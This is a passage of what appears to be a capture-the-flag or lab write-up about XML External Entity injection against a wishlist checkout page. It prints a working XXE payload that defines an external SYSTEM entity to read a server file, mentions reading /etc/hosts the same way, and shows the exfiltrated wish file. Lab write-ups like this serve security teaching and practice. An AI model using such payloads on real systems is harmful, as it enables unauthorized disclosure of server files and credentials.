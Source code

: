 ![Contents of the /etc/hosts file](images/contents-of-etc-hosts.png)

## Time for Some Action
If we hover over the `Wish #21` link in the original checkout page, we can see that the URL the link points to is `/wishes/wish_21.txt`. We can use the same technique to read the contents of this file. However, we're going to read `Wish #1` instead of `Wish #21`:
  
```xml 
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>
```

If we change the request to use this payload, we can see the contents of the `wish_1.txt` file:

![Contents of the wish_1.txt file](images/contents-of-wish-1.png)
